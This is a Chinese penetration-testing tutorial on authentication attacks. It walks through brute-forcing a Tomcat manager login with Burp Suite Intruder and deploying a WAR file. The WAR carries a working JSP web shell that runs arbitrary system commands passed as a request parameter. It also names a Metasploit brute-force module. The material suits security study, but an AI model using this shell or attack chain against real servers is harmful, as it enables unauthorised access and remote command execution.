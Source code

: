 ## 身份认证介绍 

身份认证技术是在计算机网络中确认操作者身份的过程而产生的有效解决方法。 

计算机网络世界中一切信息包括用户的身份信息都是用一组特定的数据来表示的，计算机只能识别用户的数字身份，所有对用户的授权也是针对用户数字身份的授权。

身份认证攻击就是为了使用各种办法通过这层认证，突破作为防护网络资产的第一道关口，身份认证攻击在渗透测试中有着举足轻重的作用。

## Web认证攻击 

常见web登陆口只有用户名跟密码, 没有验证码, 可以使用 BurpSuite 的 Intruder 模块进行暴力破解。

## Basic认证攻击

### Tomcat 暴力破解

#### 发现 Tomcat 登录界面

![image-20210915112040521](https://cdn.jsdelivr.net/gh/yzbtdiy/cdn@security/imgs/authentication_attack/image-20210915112040521.png)

#### Burpsuite 抓包

![image-20210915112255779](https://cdn.jsdelivr.net/gh/yzbtdiy/cdn@security/imgs/authentication_attack/image-20210915112255779.png)

发现使用 Basic 认证加密, 观察推测可能是 Basic64 , 解码后发现格式为 `用户名:密码`

#### Intruder 暴力破解

使用自定义迭代器, 位置1 为用户名, 位置2 为密码, 分割符为 `:` , 并使用 Base64 编码转化 。

![image-20210915114605641](https://cdn.jsdelivr.net/gh/yzbtdiy/cdn@security/imgs/authentication_attack/image-20210915114605641.png)

![image-20210915113701889](https://cdn.jsdelivr.net/gh/yzbtdiy/cdn@security/imgs/authentication_attack/image-20210915113701889.png)

发现返回数据较大的请求, 对 Basic 字段进行 Base64 解码, 得到 `tomcat:admin`

![image-20210915114855296](https://cdn.jsdelivr.net/gh/yzbtdiy/cdn@security/imgs/authentication_attack/image-20210915114855296.png)

#### 登录后台

尝试使用 `tomcat:admin` 登录, 进入后台 。

![image-20210915115302063](https://cdn.jsdelivr.net/gh/yzbtdiy/cdn@security/imgs/authentication_attack/image-20210915115302063.png)

#### 上传 war 包

新建 shell.jsp 文件，转化为 war 文件。

```jsp
<%
if("x".equals(request.getParameter("pwd")))
{
java.io.InputStream
in=Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
int a=-1;
byte[]b=new byte[2048];
out.print("<pre>");
while((a=in.read(b))!=-1)
{
out.println(new String(b));
}
out.print("</pre>");
}
%>
```

![image-20210915120726229](https://cdn.jsdelivr.net/gh/yzbtdiy/cdn@security/imgs/authentication_attack/image-20210915120726229.png)

后台选择生成的 war 文件，然后 Deploy。

![image-20210915121340863](https://cdn.jsdelivr.net/gh/yzbtdiy/cdn@security/imgs/authentication_attack/image-20210915121340863.png)

#### 传递参数执行命令

![image-20210915123358550](https://cdn.jsdelivr.net/gh/yzbtdiy/cdn@security/imgs/authentication_attack/image-20210915123358550.png)

![image-20210915123631057](https://cdn.jsdelivr.net/gh/yzbtdiy/cdn@security/imgs/authentication_attack/image-20210915123631057.png)

**MSF 的 `auxiliary/scanner/http/tomcat_mgr_login` 模块也可以对 Tomcat 后台登录进行暴力破解**

